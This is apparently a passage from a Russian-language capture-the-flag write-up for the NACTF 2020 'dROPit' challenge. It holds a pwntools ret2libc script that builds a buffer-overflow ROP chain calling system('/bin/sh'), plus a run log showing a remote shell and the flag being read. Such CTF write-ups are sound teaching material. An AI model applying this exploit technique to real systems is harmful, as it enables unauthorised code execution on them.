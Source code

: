 ```python3
libc = ELF('./libc6_2.32-0ubuntu2_amd64.so')

libc.address = leak - libc.sym['puts']
info('libc base address: %s' % hex(libc.address))

BINSH = next(libc.search(b'/bin/sh'))
SYSTEM = libc.sym['system']
RET = rop.find_gadget(['ret'])[0]

info('bin/sh: %s' % hex(BINSH))
info('system: %s' % hex(SYSTEM))
info('ret gadget: %s' % hex(RET))

payload = 'A' * 56
payload += p64(RET)
payload += p64(POP_RDI)
payload += p64(BINSH)
payload += p64(SYSTEM)

p.sendline(payload)
p.interactive()
```

Запускаем эксплойт:

```
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/dROPit$ python3 dropit_exploit.py
[*] '/mnt/c/Users/Lenovo/Desktop/NACTF 2020/dROPit/dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/mnt/c/Users/Lenovo/Desktop/NACTF 2020/dROPit/libc6_2.32-0ubuntu2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './dropit'
[*] pop rdi gadget: 0x401203
[*] puts@got: 0x403fc8
[*] puts@plt: 0x401030
[*] main: 0x401146
[+] Opening connection to challenges.ctfd.io on port 30261: Done
[*] leaked libc address: 0x7f630d713d90
[*] libc base address: 0x7f630d693000
[*] bin/sh: 0x7f630d84141f
[*] system: 0x7f630d6e33c0
[*] ret gadget: 0x40101a
[*] Switching to interactive mode
?
$ ls
dropit
flag.txt
$ cat flag.txt
nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}
$
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/dROPit$
```
